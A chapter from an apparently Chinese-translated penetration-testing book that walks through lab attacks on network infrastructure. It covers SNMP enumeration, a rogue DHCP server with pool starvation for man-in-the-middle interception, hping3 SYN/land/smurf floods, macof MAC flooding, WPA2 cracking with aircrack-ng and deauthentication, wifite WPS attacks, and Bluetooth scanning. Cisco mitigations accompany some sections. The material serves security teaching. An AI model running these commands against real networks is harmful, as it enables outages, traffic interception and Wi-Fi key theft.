## 7

## Attacks on the Network Infrastructure

理解基础设施中潜在的缺陷或安全问题是制定强大安全策略的关键。如果这些缺陷被坏人发现，他们可以攻击基础设施使网络无法运行，更糟糕的是，将其用作攻击他人的工具。作为渗透测试人员，我们也很重要地查看整体基础设施，以确保发现并通知可能存在的任何问题。

在本章中，我们将使用各种工具来检查基础设施的安全态势。这将包括有线和无线基础设施。随着企业内部未定义设备的激增，确保它们不会造成任何安全问题比以往任何时候都更重要。我们还将涉及物理安全，因为公司可能已经部署了所有安全控制措施，但如果有人可以随意进入建筑物并窃取资产，那么安全计划无疑是彻底失败的。

The following topics will be discussed in this chapter:

- 有线攻击
- 检查空中
- 蓝牙探测
- 物理安全考虑

## Wired-based attacks

黑客并不是直接出现、接入环境并开始哈希密码以获取服务器访问权限。他们在获得最终想要的东西之前，只是在环境中获得立足点，就需要花费大量时间和精力。为了获得这个立足点，通常会对基础设施发起攻击，这使他们能够获得入口点、建立立足点并从那里在基础设施中移动。

以下部分将展示一些针对有线基础设施的工具和攻击。大多数这些攻击可以通过在网络基础设施侧进行正确的配置来防止。

## snmp-check

SNMP 是一种非常流行的网络监控协议。几乎每台网络设备都支持它，并且以某种方式默认启用。这就是我们渗透测试人员发挥作用的地方。SNMP 可以为组织提供有关其基础设施及其运行设备的宝贵信息。但如果设置不当或使用默认信息，它可能会向其他非员工提供相同的信息。这些信息可用于进一步了解和攻击网络，因此你一定想要限制谁可以做什么和看到什么。

snmp-check 是一个用于枚举 snmpwalk 以获取环境中大量有用信息的工具。可配置的配置选项很少，这使其成为一个简洁直接的工具：

```
root@kali:/root# snmp-check -h
snmp-check v1.9 - SNMP enumerator Copyright (c) 2005-2015 by Matteo Cantoni (www.nothink.org)
Usage: snmp-check [OPTIONS] <target IP address>
-p --port      : SNMP port. Default port is 161;
-c --community : SNMP community. Default is public;
-v --version   : SNMP version (1,2c). Default is 1;
-w --write     : detect write access (separate action by enumeration);
-d --disable_tcp : disable TCP connections enumeration!
-t --timeout   : timeout in seconds. Default is 5;
-r --retries   : request retries. Default is 1;
-i --info      : show script version;
-h --help      : show help menu;
```

我通常扫描环境中大多数情况下的默认字符串 public。这样我就可以将其包含在我的发现中。以下是我的命令语法以及我在扫描实验室环境时发现的内容：

```
Snmp-check -c public -v 2c -w 192.168.1.5
```

当我对环境中的交换机运行它时，输出充满了非常有用的信息。以下截图是我实验室交换机的输出：



snmp-check 有趣的地方在于它会提供大量非常有用的信息。例如，你可以看到系统信息以及网络信息和网络接口。

在接口之后，snmp-check 会列出当前的 L3 接口、IP/子网掩码，以及正在监听的活动 TCP 端口和 UDP 端口。你可以参考以下截图。这是非常有用的信息，可以让你对该设备进行进一步测试并更好地了解拓扑结构：

[*] 网络 IP:

| Id | IP 地址 | 子网掩码 | 广播 |
|----|---------|----------|------|
| 121 | 192.168.1.5 | 255.255.255.0 | 1 |

[*] TCP 连接和监听端口:

| 本地地址 | 本地端口 | 远程地址 | 远程端口 | 状态 |
|----------|----------|----------|----------|------|
| 192.168.1.5 | 22 | 192.168.33.3 | 64906 | established |

[*] 监听 UDP 端口:

| 本地地址 | 本地端口 |
|----------|----------|
| 192.168.1.5 | 161 |
| 192.168.1.5 | 162 |
| 192.168.1.5 | 2228 |
| 192.168.1.5 | 10002 |
| 192.168.1.5 | 63408 |

## Rogue DHCP server

大多数组织在其环境中运行 DHCP 服务器；然而，很少有组织防范饥饿攻击。保护 DHCP 服务器所需的配置非常少，但功能强大。在我的渗透测试中，我将尝试耗尽当前的 DHCP 服务器，启动自己的 DHCP 服务器让客户端从我这里获取地址，然后将他们的流量通过我发送。以下是完成此任务所需的逐步配置：

- 1. 首先，我们需要为新的接口设置网络。我需要在我的主以太网接口上添加一个子接口。尝试使 IP 看起来尽可能接近当前的默认网关。所以，如果组织使用的是 192.168.22.1，尝试使用 192.168.22.11，或者如果他们使用的是 192.168.45.254，尝试使用 192.168.45.154。再次强调，这里目标是试图欺骗用户的眼睛，让他们在快速浏览时注意不到变化：

```
ifconfig eth0:1
ifconfig eth0:1 192.168.33.111 netmask 255.255.255.0
route add default gw 192.168.1.1 eth0:1
```


This task requires management sign off like we talked about earlier. This task can be disruptive and will exhaust the current DHCP pool as well as redirect all traffic flow on new DHCP leases through your box. You always want to make sure management is okay with this.

2. 在我们的新接口全部设置好并准备就绪后，我们需要确保系统已设置为在线路上转发数据包。我们之前做过这个，所以这里不应该有新内容：

```
sysctl -w net.ipv4.ip_forward=1
```

3. 现在，我们将开始设置 rogue DHCP 服务器。这里需要注意的是，我们暂时不想真正启动服务器。我们只是想确保一切都已准备就绪。我们将通过 Metasploit 来完成此操作。进入 Metasploit 后，我们将设置所需的相关选项：

```
msf > use auxiliary/server/dhcp
msf auxiliary(dhcp) > set DHCPIPSTART 192.168.33.205
DHCPIPSTART => 192.168.33.205
msf auxiliary(dhcp) > set DHCPIPEND 192.168.33.207
DHCPIPEND => 192.168.33.207
msf auxiliary(dhcp) > set srvhost 192.168.33.111
srvhost => 192.168.33.111
msf auxiliary(dhcp) > set netmask 255.255.255.0
netmask => 255.255.255.0
msf auxiliary(dhcp) > set router 192.168.33.1
router => 192.168.33.1
```

4. 现在，在我们启动 rogue DHCP 服务器之前，我们需要耗尽当前的服务器。我将使用 pig.py，这是一个内置的 DHCP 耗尽脚本，多么方便！

```
root@pi-kali:~#pig.py eth0:1
[ -- ] [INFO] - using interface eth0:1
[DBG] Thread0 - (Sniffer) READY
[DBG] Thread1 - (Sender) READY
[--->] DHCP_Discover
[--->] DHCP_Discover
[--->] DHCP_Discover
[<---] DHCP_Offer e0:55:3d:77:04:b5 0.0.0.0 IP:192.168.33.36 for MAC=[de:ad:1a:23:04:dd]
[--->] DHCP_Request 192.168.33.36
[--->] DHCP_Discover
[<---] DHCP_Offer e0:55:3d:77:04:b5 0.0.0.0 IP:192.168.33.37 for MAC=[de:ad:1f:31:cb:a8]
[--->] DHCP_Request 192.168.33.37
[--->] DHCP_Discover
[<---] DHCP_Offer e0:55:3d:77:04:b5 0.0.0.0 IP:192.168.33.38 for MAC=[de:ad:28:23:44:40]
[--->] DHCP_Request 192.168.33.38
```

5. 在当前 DHCP 服务器完全耗尽后，让我们启动我们的 rogue 服务器，看看是否可以发出一些租约并让一些流量通过我们的设备：

```
msf auxiliary(dhcp)> run[*]Auxiliary module execution completed[*]
Starting DHCP server...
msf auxiliary(dhcp)
```

6. 此时，流量应该会通过我们的设备。我将通过两种不同的方式来验证这一点。第一种是检查加入网络的任何新主机的 IP 信息。我想看看新的默认网关是否是我的新子接口：



7. 第二个检查是运行 tcpdump 包，以检查我是否看到流量现在通过我的设备前往互联网。这样，我就能看到我的 DHCP 服务器租约的覆盖范围：

```
root@pi-kali:~#tcpdump -i eth0:1 -icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode listening on eth0:1, link-type EN10MB (Ethernet), capture size 262144 bytes
01:49:49.546152 IP 192.168.33.206 > 8.8.8.8: ICMP echo request, id 377, seq 59, length 64
```

从实验室练习中，你可以看到耗尽公司的 DHCP 服务器、启动自己的服务器并现在处于该段流量中间是多么容易。这是另一种中间人攻击形式。

## 拒绝服务检查

有时，意图并不是入侵系统或窃取任何信息，而是使基础设施瘫痪。网络中的系统可能无法有效处理大量虚假流量，因此会导致 CPU 和内存使用率上升到系统变得不稳定或无法使用的程度。基础设施方面有防止这种情况的方法，因此我将测试基础设施对此类事件的响应情况。

## 使用 hping3 进行各种攻击

hping3 是一个极其灵活的数据包生成工具和协议分析器。此工具可用于多种不同的测试。首先，我们将测试防火墙上的初始连接限制。初始连接是半开连接，这意味着我们只发送 SYN 数据包，之后不再响应。目标是用虚假连接填满防火墙的连接表，使其填满后无法再接受更多连接。使用 hping3，我将针对防火墙生成大量 SYN 连接，以查看其如何处理初始连接。hping3 有很多可用的选项和开关。因此，我不会展示所有选项，而是仅解释我将使用的开关。


在首次运行任何命令之前，请务必查看该工具的手册页，或使用 -help 或 /? 等方式运行命令。命令和开关有时会在新版本发布时发生变化。

运行此测试时，我将使用以下语法：

```
hping3 -c 30000 -d 120 -S -p 22 --flood 192.168.33.1
```

- `-c` - 要发送的数据包数量
- `-d` - 要发送的数据包大小
- `-S` - 仅 SYN 数据包
- `-p` - 使用的端口
- `--flood` - 尽可能快地发送数据包

当我在终端窗口开始运行命令时，我还会对外部主机执行 ping 操作，以验证防火墙是否正确处理连接：



你可以看到，正常情况下为 30 毫秒的 ping 时间现在已超过 200+ 毫秒，而且我甚至开始丢包。这清楚地表明防火墙未正确设置以处理初始连接。黑客可以利用这种情况，因此你需要在最终的 engagement 报告中记录这一点。


缓解这些攻击涉及在适当的 security 设备上设置连接限制，以限制初始连接的数量。你也可以查阅 RFC4987 以获取有关如何缓解 SYN 攻击的更多信息，网址为 https://tools.ietf.org/html/rfc4987。

## 使用 hping3 进行 Land 攻击

hping3 另一个可用的测试是执行 land 攻击。land 攻击是指发送源地址和目的地址完全相同的 IP 地址的数据包。这是一个 IP 欺骗的例子。网络基础设施应设置为拒绝欺骗的数据包。按照最佳安全实践，你的环境中绝不应该有源地址属于你 IP 空间的流量进入。这完全合乎逻辑，因为从逻辑上讲，进入你网络的流量不应该来自你的网络。

要测试你的网络是否允许欺骗，你可以利用 hping3 来检查。这里是我将用于 land 攻击的语法：

```
hping -V -c 100 -d 40 -S -p 139 -s 80 -k -a 192.168.1.129 192.168.1.129
```

- `-V` <-- Verbose
- `-c` --count: 数据包计数
- `-d` --data: 数据大小
- `-S` --syn: 设置 SYN 标志
- `-p` --destport [+] [+] <port> 目标端口（默认 0） ctrl+z 增/减
- `-s` --baseport: 基础源端口（默认随机）
- `-k` --keep 源端口保持不变
- `-a` --spoof 源地址


针对此机制的基础设施保护，基础设施需要在环境中拥有适当的访问控制列表，以不允许源地址通过接口，而这些源地址通常不应该从该接口看到。对于如何防范此问题，你可以查阅 IETF 的 BCP38，网址为 https://tools.ietf.org/html/bcp38。

## 使用 hping3 进行 Smurf 攻击

Smurf 攻击发生在伪造的源地址向广播地址发送大量 ICMP 数据包时。该网络上的主机随后会响应，因为它们应该对广播地址做出响应。这会导致本地 LAN 出现拒绝服务情况。通常，你希望网络设备不要通过接口发送定向广播，这样数据包就会被丢弃且不会发生不良情况。但是，如果未设置该基于基础设施的配置，smurf 攻击将成功。

利用 hping3，以下是设置网络 smurf 攻击的语法：

```
hping3 -1 --flood -a 192.168.33.123 192.168.1.255
```

- **-1 --icmp**: 它是 icmp 模式
- **--flood**: 它尽可能快地发送数据包
- **-a --spoof**: 它伪造源地址

防御此类攻击与在环境中的交换机端口和路由器接口上关闭定向广播一样简单。在 Cisco 环境中，以下命令将有效：

```
Router(config)#interface GigabitEthernet0
Router(config-if)#no ip directed-broadcast
```

## 使用 Macof 进行 MAC Flooding

MAC 地址泛洪是使网络失效的绝佳方式。基本上，通过 MAC 泛洪，你可以将网络变成一个大型集线器。MAC 泛洪的工作原理基本上是允许交换机端口学习其端口上看到的尽可能多的 MAC 地址，如果没有限制，可以填满交换机上的 TCAM 空间。一旦发生这种情况，交换机就会变成集线器，因为它们无法存储端口的 MAC 地址。它们需要将每个数据包发送到每个交换机以尝试将数据包送达。


使用名为 macof 的工具，我们可以尝试通过向我们连接到的交换机端口泛洪尽可能多的 MAC 地址，来检查适当的交换机端口控制是否已就位。

macof 的语法如下。查看 man 手册页或 --help 以获取可用选项的完整说明：

```
macof [-i interface] [-s src] [-d dst] [-e tha] [-x sport] [-y dport] [-n times]
```

在我的实验室中，为了测试这一点，我将运行以下命令来检查是否可以使用完所有的 TCAM 空间：

```
macof -i eth0 -d 192.168.33.1 -n 1000000
```

为了防止 MAC 地址泛洪，关键在于尽可能限制交换机端口允许的 MAC 地址数量。在 Cisco 设备上，这是通过 switchport port-security 系列命令完成的。以下是一个 Cisco 交换机的基本示例：

```
Switch(config)# interface gi 0/1
Switch(config-if)# switchport mode access
Switch(config-if)# switchport port-security
Switch(config-if)# switchport port-security maximum 5
Switch(config-if)# switchport port-security mac-address sticky
```

## 基于无线网络的攻击

随着无线网络的普及，这些网络的安全性提升从未如此重要。与有线网络一样，无线网络也有其公平份额的用于审计和攻击各种主机和网络的工具。作为渗透测试人员，我们的职责是确保无线网络设置正确，并且范围内没有其他不应该存在的网络，同时确保它们不会干扰范围内的网络。

在以下部分，我将展示我在渗透测试期间使用的一些无线工具的示例。市面上有许多优秀的工具，我甚至可以专门写一本书来介绍它们，但我希望选择一个样本来展示各种测试策略。

### 使用 aircrack-ng 破解 WPA2

在我看来，aircrack-ng 是目前最优秀的无线渗透工具之一。它可以通过在无线接口上设置监听接口、嗅探流量和握手，然后尝试并破解这些密钥来破解 WPA 和 WEP 密钥。aircrack-ng 包含许多工具，包括 airbase-ng、airdecap-ng、airdecloak-ng 和 aireplay-ng。我将在我的无线测试中使用其中一些工具。

我将在实验室中使用 aircrack-ng 尝试破解一个使用 WPA 的无线访客网络，以确保他们没有使用容易猜测的密码短语。涉及几个步骤；让我现在带你了解一下。我假设 aircrack-ng 已经安装：

- 1. 我们需要启动无线监控接口。为此，我们需要使用 airmon-ng 命令，后跟计划使用的无线接口。在我的例子中，它是 wlan1。
- 2. 接下来，我们需要获取正在看到的可用 WLAN 列表。这样，我们就可以选择合适的 WLAN 进行数据包和握手捕获。要获取此列表，我们可以使用 airodump-ng 命令：

```
root@pi-kali:~# airmon-ng start wlan1
Found 2 processes that could cause trouble.
If airodump-ng, aireplay-ng or airtun-ng stops working after a short period of time, you may want to run 'airmon-ng check kill'
PID
Name
199 NetworkManager
445 wpa_supplicant
PHY     Interface       Driver      Chipset
phy0    wlan0           ??????      Broadcom 43430
phy1    wlan1           rt2800usb   Ralink Technology, Corp. RT5372
(mac80211 monitor mode vif enabled for [phy1]wlan1 on
[phy1]wlan1mon)

(mac80211 station mode vif disabled for [phy1]wlan1)
```


对于可能造成干扰的任何进程，在继续之前最好先停止它们，以确保没有干扰。你可以使用 kill PID 命令，其中 PID 是该干扰进程的进程 ID。

```
root@pi-kali:~# airodump-ng wlan1mon
```

当我在实验室运行上述命令时，你可以通过以下截图快速看到我可用的所有 SSID：



- 3. 一旦我找到想要尝试破解的 WLAN，我可以按 Ctrl + C 退出 airodump 命令。现在，我可以使用 airodump-ng 命令再次设置数据包和握手的捕获。不过这次，我们将使用一些其他命令行开关：

```
root@pi-kali:~# airodump-ng -c 1 -w SP-Guest-01 --bssid 8E:15:44:AA:4B:18 wlan1mon
```

在前面的代码中，`-c` 指定频道，`-w` 是 WLAN 名称，`-bssid` 是我们将要捕获流量的 WLAN 的 BSSID。最后，我们以我们设置的监控接口结束命令。在运行期间，它会让你知道哪些客户端已连接以及它捕获的流量。如果你幸运的话，也可能捕获到握手。


如果你没有捕获任何握手，不用担心。你可以使用 `aireplay-ng` 命令 (`aireplay-ng -0 0 -a <BSSID>`) 监控接口强制客户端取消身份验证然后重新身份验证，这意味着你将看到握手。

这是我使用 airodump-ng 在实验室捕获的截图。请注意，它确实显示我获得了握手。我还可以看到我有两台客户端已连接：



- 4. 一旦我们对无线捕获感到满意，我们可以按 Ctrl + C 停止它。现在，是时候使用 `aircrack-ng` 命令将该捕获与一个好的词表结合起来尝试破解该密码短语了。为了在我的实验室中实现这一点，我运行了以下命令：

```
root@pi-kali:~# aircrack-ng -w /usr/share/wordlists/wordlist.txt SP-Guest-01.cap
```

一旦该命令运行，它将使用指定的词表扫描捕获的文件。以下截图是在捕获文件正在通过词表尝试查找密码短语时拍摄的：



如果一切成功，完成后你将看到密钥被打印出来。这只是展示了 aircrack-ng 的强大功能和多功能性。

### 使用 Kismet 监控空中

Kismet 是一个无线网络扫描实用程序。它在告知你无线网络的覆盖范围以及涉及的频道和数据包等项目方面做得非常好。然后你可以切换到各种窗口以查看更具体的资讯视图以及任何警报。

以下截图向我们展示了范围内的无线网络以及 Kismet 通过扫描获得的信息：



通过选择频道视图，你可以看到当前空中的频道利用情况：



你还可以查看空中发生的各种无线警报：


通过突出显示警报，你可以看到该特定警报的更详细视图。如果某些内容不明确，这是一种查看更多细节的好方法：

```
Time: Feb 25 02:51:12
Alert: CHANCHANGE
BSSID: 38:D5:47:89:46:F1
Source: 38:D5:47:89:46:F1
Dest: FF:FF:FF:FF:FF:FF
Channel: 8
Text: Network BSSID 38:D5:47:89:46:F1 changed channel from 9 to 8
```

如你所见，Kismet 在它所做的事情上相当基础，但它在获取你需要了解空中发生情况的信息方面做得很好。

### 使用 wifite 攻击 WEP

Wifite 是典型的 WEP 和 WPS 攻击工具。它也是一个很棒的无线审计工具，提供有关范围内 SSID 及其加密类型等很棒的信息。但除了提供它看到的无线信息外，你还可以使用各种攻击场景尝试攻击无线网络。如果无线网络使用 WPS（无线保护设置），它将尝试使用各种攻击入侵它。虽然 WPS 让无线经验不足的家庭用户更容易设置和连接无线网络，但围绕 WPS 存在许多安全问题。基本上，在攻击几个小时后，PIN 就可以相当容易地被攻破，而且不幸的是，许多这些家庭设备默认启用此功能。Wifite 理解这一点，如果网络启用了 WPS，它将首先尝试使用各种攻击暴力破解。

现在，如果无线网络是 WEP，wifite 也会识别出来并尝试使用各种测试破解密钥，我将展示这些测试。

当你第一次运行 wifite 命令时，你将看到一个屏幕，显示它正在扫描各种网络。以下截图是我实验室中 wifite 启动时的截图：



wifite 开始查找无线网络后，它会开始显示它们，并附带各种信息，例如加密类型、ESSID、信号强度和 WPS。大量可用于审计的宝贵信息。Wifite 将继续停留在下面的屏幕上，直到你通知它列表看起来不错并且你已准备好进行攻击/审计。要实现这一点，你需要按 Ctrl + C：



按 Ctrl + C 后，列表将不再更新，并且会提示你想要攻击的目标。一旦你知道要攻击和审计的网络，就输入分配给它的编号，然后按 Enter：

| 编号 | ESSID | 信道 | 加密 | 信号强度 | WPS? | 客户端 |
| --- | --- | --- | --- | --- | --- | --- |
| 1 | \x00 | 1 | WEP | 99db | no | client |
| 2 | (48:F8:B3:4B:D2:6B) | 1 | WPA | 99db | no |  |
| 3 | blizzard | 11 | WPA2 | 87db | no |  |
| 4 | \ | 11 | WPA2 | 86db | no |  |
| 5 | \ | 11 | WPA2 | 84db | no |  |
| 6 | SP | 1 | WPA2 | 54db | no | clients |
| 7 | hechler | 1 | WPA2 | 47db | wps | clients |
| 8 | Cisco48030 | 6 | WPA2 | 46db | wps | clients |
| 9 | zoom | 1 | WPA2 | 40db | wps |  |
| 10 | Xbox One | 3 | WPA2 | 38db | no | clients |
| 11 | DIRECT-ae-HP M426... | 1 | WPA2 | 29db | wps |  |

是否启用 WPS 将决定攻击的顺序。如果启用了 WPS，它将尝试破解它并获取 PIN。如果未启用 WPS，它将尝试破解 WEP 密钥（如果启用了 WEP）。以下是针对启用了 WPS 的网络进行的攻击示例：

```
[+] 1 target selected.

[0:00:00] initializing WPS Pixie attack on ________________
[0:47:39] WPS Pixie attack: Starting Cracking Session. Pin count: 0, Max pi...
(^C) WPS Pixie attack interrupted
[0:00:00] initializing WPS PIN attack on ________________
[0:01:24] WPS attack, 0/0 success/ttl,
(^C) WPS brute-force attack interrupted
[0:08:20] starting wpa handshake capture on ______
[0:08:19] new client found: 1C:9E:46:AD:94:BE
[0:08:19] new client found: F8:CF:C5:7C:C8:C0
[0:08:09] new client found: 44:1C:A8:05:2A:AE
[0:08:09] new client found: 00:BB:3A:A6:D2:62
[0:08:09] new client found: A4:F1:E8:4A:32:78
[0:07:43] sending 5 deauth to F8:CF:C5:7C:C8:C0... sent
```

对于没有 WPS 且仅使用 WEP 的网络，以下是我的实验室的截图：



我认为 wifite 是一个很棒的工具，可以确保无线网络按照策略设置，并且密钥和 PIN 无法被破解。如果任何测试成功，wifite 将打印出相关信息。

## Bluetooth probing

随着越来越多的支持蓝牙的设备进入企业，蓝牙扫描变得越来越重要。不仅因为支持蓝牙的设备数量众多，而且黑客会在网络或企业内部放置自己的设备，利用蓝牙窃取数据。蓝牙便宜且易于使用。这正是黑客的完美驱动因素。野外已发现蓝牙窃取设备，因此像 Visa 这样的信用卡公司建议定期进行蓝牙扫描，类似于过去的无线测试。

由于了解网络空间中有哪些支持蓝牙的设备非常重要，我将进行一些蓝牙发现、测试和攻击，以了解可以利用环境中的哪些信息。我将使用各种不同的蓝牙实用工具来尽可能多地获取有关环境的信息。

## Bluelog

Bluelog 是一个蓝牙扫描器，可在区域内查找蓝牙设备的迹象。它是了解周围环境的好工具。了解周围有什么有助于识别可能隐藏的恶意蓝牙设备。

Bluelog 被定义为蓝牙站点勘测工具，因此让它在固定位置长时间运行将使你能够获得该区域的良好概况。这正是我将如何运行它的方法。命令本身并不过于复杂，但有一些可用选项：

### Basic options:
### 基本选项：
- `-i <interface> 设置扫描设备，默认是 "hci0"`
- `-o <filename> 设置输出文件名，默认是 "devices.log"`
- `-v 详细模式，将发现的设备打印到终端`
- `-q 安静模式，关闭非必要的终端输出`
- `-d 启用守护进程模式，Bluelog 将在后台运行`
- `-k 终止已运行的 Bluelog 进程`
- `-l 启动 "Bluelog Live"，默认禁用`

### Logging options:
### 日志选项：
- `-n 将设备名称写入日志，默认禁用`
- `-m 将设备制造商写入日志，默认禁用`
- `-c 将设备类别写入日志，默认禁用`
- `-f 使用“友好”设备类别，默认禁用`
- `-t 将时间戳写入日志，默认禁用`
- `-x 混淆发现的 MAC 地址，默认禁用`
- `-e 使用 CRC32 编码发现的 MAC 地址，默认禁用`
- `-b 启用 BlueProPro 日志格式，见 README`

### Advanced options:
### 高级选项：
- `-r <retries> 名称解析重试次数，默认是 3`
- `-a <minutes> 健忘模式，Bluelog 将在 X 时间后忘记设备`
- `-w <seconds> 扫描窗口（秒），见 README`
- `-s 仅 Syslog 模式，无日志文件，默认禁用`

在运行 bluelog 之前，你需要确保系统能够看到蓝牙接口并且它正常工作。你可以使用 hciconfig 来实现。以下是我的系统的输出：

```
root@pi-kali:~# hciconfig
hci0:      Type: Primary  Bus: USB       BD Address: 00:1A:7D:DA:71:10  ACL MTU: 310:10  SCO MTU: 64:8   UP RUNNING      RX bytes:1232  acl:0  sco:0
events:74  errors:0     TX bytes:2858  acl:0  sco:0  commands:74  errors:0
```

你可以看到我有我的 hciX 接口（就我而言是 hci0）。你也可以看到它有一个 MAC 地址。现在我们已经验证蓝牙接口正在工作，我们可以开始扫描我们的区域。

以下是我在实验室中运行的命令和输出。由于我的设备上有多个蓝牙接口，我将指定要使用的设备。我还将指定写入结果的文件以及日志选项，以写入时间戳、设备名称、制造商和类别。

```
bluelog -i hci0 -o /root/bt-log.txt -vnmct
```

以下是我的实验室的输出：

```
